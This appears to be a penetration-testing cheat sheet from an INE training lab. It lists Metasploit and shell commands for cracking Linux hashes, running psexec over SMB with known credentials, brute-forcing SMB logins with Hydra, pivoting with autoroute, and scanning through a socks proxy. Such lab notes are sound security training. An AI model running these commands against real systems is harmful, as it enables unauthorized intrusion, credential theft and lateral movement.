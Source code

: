> This modules will also perform the same function

```msfconsole
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

> This module can be used to crack a hash.

#### SMB & NetBIOS Enumeration:

```msfconsole
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser administrator
set SMBPass password1
exploit
```

> This module can be used to exploit the machine using `smb` creds.

```Shell
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb
```

> Hydra command to brute force `smb` users pass.

```cmd
run autoroute -s 10.0.22.69/20
```

> This command is related to managing and utilizing routes within a compromised network during a penetration test. By running `autoroute -s 10.0.22.69/20`, you are instructing Metasploit to add a route to the network `10.0.16.0/20` via the compromised machine.

```shell
cat /etc/proxychains4.conf
```

> Socks proxy configuration is in this file.

```msfconsole
use auxiliary/server/socks_proxy
show options
set SRVPORT 9050
set VERSION 4a 
exploit
jobs
```

> This module can be used to set up `socks4a` proxy chain.

```Shell
proxychains <command>
proxychains nmap demo1.ine.local -sT -Pn -sV -p 445
```
